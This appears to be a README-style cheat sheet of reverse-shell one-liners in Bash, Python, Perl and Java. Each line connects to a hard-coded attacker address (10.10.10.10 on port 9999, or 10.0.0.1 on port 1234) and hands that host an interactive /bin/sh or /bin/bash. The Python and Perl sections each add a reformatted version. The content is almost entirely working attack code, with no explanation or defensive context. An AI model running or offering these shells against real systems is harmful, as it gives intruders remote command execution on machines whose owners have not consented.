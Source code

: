 
# Table of contents

1. [Bash](#bash)
2. [Python](#python)
3. [Perl](#perl)
4. [Java](#java)




## Bash

> bash -i >& /dev/tcp/10.10.10.10/9999 0>&1


## Python

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
#Same but prettier
	import socket
	import subprocess
	import os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])

```


## Perl

> perl -e 'use Socket;$i="10.10.10.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
	#Same but prettier
	use Socket;
	$i="10.0.0.1";
	$p=1234;
	socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
	if(connect(S,sockaddr_in($p,inet_aton($i)))){
		open(STDIN,">&S");
		open(STDOUT,">&S");
		open(STDERR,">&S");
		exec("/bin/sh -i");
};

```


## Java

```
r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
```
